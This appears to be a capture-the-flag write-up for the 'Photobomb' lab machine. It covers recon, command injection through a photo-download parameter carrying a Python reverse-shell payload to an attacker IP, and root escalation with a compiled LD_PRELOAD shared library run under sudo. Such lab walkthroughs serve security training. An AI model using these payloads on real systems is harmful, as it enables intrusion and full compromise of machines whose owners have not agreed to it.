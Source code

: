 ***************************************************************************************

					Photobomb.htb

***************************************************************************************


Recon:
 	 
		nmap -A -T4 10.129.55.184

             find 2 open ports:  22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
					   80/tcp open  http    nginx 1.18.0 (Ubuntu)

		  while running hidden directory scan we found a login page and photodump.js file which contains creds for loggin in

intial-foothold :
  			once loged in we can dowl photos. There is a post req to dowl the photo and we used the filetype parameter for command injection
                    "photo=mark-mc-neill-4xWHIpY2QcY-unsplash.jpg&filetype=png;export RHOST="10.10.16.3";export RPORT=6767;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'&dimensions=3000x2000"


Foothold :
             we get shell as wizard and while running sudo -l we found a script running as root /opt/cleanup.sh
   		    ```wizard@photobomb:/home$ sudo -l
								sudo -l
								Matching Defaults entries for wizard on photobomb:
   								 env_reset, mail_badpass,
   								 secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

								User wizard may run the following commands on photobomb:
   											 (root) SETENV: NOPASSWD: /opt/cleanup.sh```
Privillage Escalation:
 				https://book.hacktricks.xyz/linux-hardening/privilege-escalation#setenv

                       LD_PRELOAD can be invoked with sudo, let’s create a simple PE shell to exploit this 
 				#include <stdio.h>
				#include <sys/types.h>
				#include <stdlib.h>

				void _init() {
    				unsetenv("LD_PRELOAD");
    				setgid(0);
    				setuid(0);
    				system("/bin/bash");
				}   

				gcc -fPIC -shared -o pe.so pe.c -nostartfiles 
				
				upload it to our target machine wizard directory wget http://ip/pe.so
      
            		sudo LD_PRELOAD=/home/wizard/pe.so /opt/cleanup.sh
pwned!!!!

				
